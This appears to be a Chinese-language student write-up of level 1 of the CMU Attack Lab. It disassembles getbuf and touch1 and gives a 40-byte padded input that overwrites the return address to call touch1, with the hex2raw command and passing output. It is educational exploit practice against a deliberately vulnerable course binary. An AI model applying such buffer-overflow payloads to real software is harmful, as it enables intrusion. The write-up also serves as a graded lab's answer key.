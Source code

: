 查看getbuf和touch1的汇编有：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

```assembly
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

getbuf函数分配了40字节的栈帧，那我们只要修改ret的地址就可以完成攻击。ret的地址为touch1的地址，也就是0x4017c0。根据handout的提示，创建txt：

```
/* CI-L1.txt */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40字节随意填满栈帧 */
c0 17 40 00 00 00 00 00 /* touch1()地址，注意小端地址 */
```

再利用handout给出的hex2raw程序，将文本文件转换为二进制文件：

```bash
linux> ./hex2raw < CI-L1.txt > CI-L1-raw.txt
```

然后重定向输入到ctarget即可：

```bash
linux> ./ctarget -q < CI-L1-raw.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```
